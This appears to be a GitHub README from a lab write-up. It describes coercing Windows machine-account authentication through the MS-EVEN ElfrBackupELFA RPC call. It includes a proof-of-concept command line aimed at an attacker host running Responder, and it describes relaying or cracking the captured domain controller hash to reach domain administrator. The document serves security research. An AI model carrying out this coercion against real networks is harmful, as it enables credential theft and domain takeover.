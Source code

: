 # MS-EVEN - Remote call to ElfrBackupELFA (opnum 13)

## Summary

 - **Protocol**: [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f)

 - **Protocol UUID**: 82273fdc-e32a-18c3-3f78-827929dc23ea

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\eventlog`

 - **Function name**: [`ElfrBackupELFA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/29769356-ee2e-4a0b-b6c8-c43b3ecde72e)

 - **Function operation number**: `13`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\eventlog` and bind to the desired [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol (with uuid `82273fdc-e32a-18c3-3f78-827929dc23ea` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\eventlog` This pipe is connected to the protocol [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) and allows to call RPC functions of this protocol. We will then call the remote [`ElfrBackupELFA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/29769356-ee2e-4a0b-b6c8-c43b3ecde72e) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
ElfrBackupELFA('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS ElfrBackupELFA(
   [in] IELF_HANDLE LogHandle,
   [in] PRPC_STRING BackupFileName
 );
```

## References

 - Documentation of protocol [MS-EVEN]: EventLog Remoting Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f

 - Documentation of function `ElfrBackupELFA`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/29769356-ee2e-4a0b-b6c8-c43b3ecde72e